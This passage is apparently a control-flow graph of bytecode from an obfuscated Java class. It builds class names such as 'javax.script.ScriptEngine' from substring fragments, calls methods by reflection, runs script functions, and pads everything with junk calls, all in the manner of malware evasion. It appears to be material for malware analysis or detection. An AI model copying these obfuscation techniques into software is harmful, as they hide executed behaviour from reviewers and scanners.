    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"S0d6nP\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"S0d6nP\"";
    "push \"S0d6nP\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"gzD573Mb\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"gzD573Mb\"";
    "push \"gzD573Mb\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ce273A55y\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ce273A55y\"";
    "push \"ce273A55y\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ln61w\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ln61w\"";
    "push \"ln61w\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"wV67\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"wV67\"";
    "push \"wV67\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4t65Ub\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4t65Ub\"";
    "push \"4t65Ub\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Yk2032\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Yk2032\"";
    "push \"Yk2032\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"a2d20B\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"a2d20B\"";
    "push \"a2d20B\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"R74h\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"R74h\"";
    "push \"R74h\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"DvD686NfKa\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"DvD686NfKa\"";
    "push \"DvD686NfKa\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"W973v\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"W973v\"";
    "push \"W973v\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Qb3bE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Qb3bE\"";
    "push \"Qb3bE\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"aVq7204Y\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"aVq7204Y\"";
    "push \"aVq7204Y\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"657BtRP\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"657BtRP\"";
    "push \"657BtRP\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0f2a478lSY\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0f2a478lSY\"";
    "push \"0f2a478lSY\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"PU0B57RY\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"PU0B57RY\"";
    "push \"PU0B57RY\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"jcA26eYN\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"jcA26eYN\"";
    "push \"jcA26eYN\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"D20DzL8\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"D20DzL8\"";
    "push \"D20DzL8\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"jpV65e\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"jpV65e\"";
    "push \"jpV65e\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"3bTN\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"3bTN\"";
    "push \"3bTN\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AK857d4Nq\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AK857d4Nq\"";
    "push \"AK857d4Nq\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <dhycnvdbqlpbdahs: java.lang.String UBrbvT(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <dhycnvdbqlpbdahs: java.lang.String UBrbvT(java.lang.String)>";
    "store.r r2"
    "virtualinvoke <dhycnvdbqlpbdahs: java.lang.String UBrbvT(java.lang.String)>"->"store.r r2";
    "store.r r2"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"newarray";
    "newarray"->"push 0";
    "push 0"->"push class \"Ljava/lang/System;\"";
    "push class \"Ljava/lang/System;\""->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"vEZja\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"vEZja\"";
    "push \"vEZja\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ZSeva\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ZSeva\"";
    "push \"ZSeva\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Ux.dKl\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Ux.dKl\"";
    "push \"Ux.dKl\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"scrR8T1\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"scrR8T1\"";
    "push \"scrR8T1\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"k1cip\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"k1cip\"";
    "push \"k1cip\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"3t.y\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"3t.y\"";
    "push \"3t.y\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"qScr\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"qScr\"";
    "push \"qScr\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"w0CsipGh\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"w0CsipGh\"";
    "push \"w0CsipGh\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"rwJtE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"rwJtE\"";
    "push \"rwJtE\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"pSGngijg\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"pSGngijg\"";
    "push \"pSGngijg\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"GF1nepzQP\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"GF1nepzQP\"";
    "push \"GF1nepzQP\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"load.r r1";
    "load.r r1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"uBCKevaG3DU\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"uBCKevaG3DU\"";
    "push \"uBCKevaG3DU\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"2m7luF\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"2m7luF\"";
    "push \"2m7luF\""->"push 3";
    "push 3"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "load.r r2"
    "push 0"->"load.r r2";
    "load.r r2"->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <dhycnvdbqlpbdahs: java.lang.Object jLEcCN(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "staticinvoke <dhycnvdbqlpbdahs: java.lang.Object jLEcCN(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"newarray";
    "newarray"->"push 0";
    "push 0"->"push class \"Ljava/lang/System;\"";
    "push class \"Ljava/lang/System;\""->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"load.r r1";
    "load.r r1"->"checkcast";
    "checkcast"->"store.r r1";
    "store.r r1"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"newarray";
    "newarray"->"push 0";
    "push 0"->"push class \"Ljava/lang/System;\"";
    "push class \"Ljava/lang/System;\""->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"load.r r1";
    "load.r r1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"mKlNuFMgW\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"mKlNuFMgW\"";
    "push \"mKlNuFMgW\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7qbtud2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7qbtud2\"";
    "push \"7qbtud2\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"lRDbYp01\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"lRDbYp01\"";
    "push \"lRDbYp01\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push 0";
    "push 0"->"newarray";
    "interfaceinvoke <javax.script.Invocable: java.lang.Object invokeFunction(java.lang.String,java.lang.Object[])> 2"
    "newarray"->"interfaceinvoke <javax.script.Invocable: java.lang.Object invokeFunction(java.lang.String,java.lang.Object[])> 2";
    "store.r r1111"
    "interfaceinvoke <javax.script.Invocable: java.lang.Object invokeFunction(java.lang.String,java.lang.Object[])> 2"->"store.r r1111";
    "store.r r1111"->"push 1";
    "push 1"->"newarray";
    "newarray"->"push 0";
    "push 0"->"push class \"Ljava/lang/System;\"";
    "push class \"Ljava/lang/System;\""->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"newarray";
    "newarray"->"store.r r2";
    "store.r r2"->"load.r r2";
    "load.r r2"->"push 0";
    "load.r r1111"
    "push 0"->"load.r r1111";
    "load.r r1111"->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "new javax.swing.JList"
    "pop"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"load.r r2";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "load.r r2"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"push 1";
    "push 1"->"newarray";
    "newarray"->"push 0";
    "push 0"->"push class \"Ljava/lang/System;\"";
    "push class \"Ljava/lang/System;\""->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "virtualinvoke <dhycnvdbqlpbdahs: java.awt.Component add(java.awt.Component)>"
    "pop"->"virtualinvoke <dhycnvdbqlpbdahs: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <dhycnvdbqlpbdahs: java.awt.Component add(java.awt.Component)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "goto load.r r1"
    "pop"->"goto load.r r1";
    "goto load.r r1"->"load.r r1";
    "load.r r1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
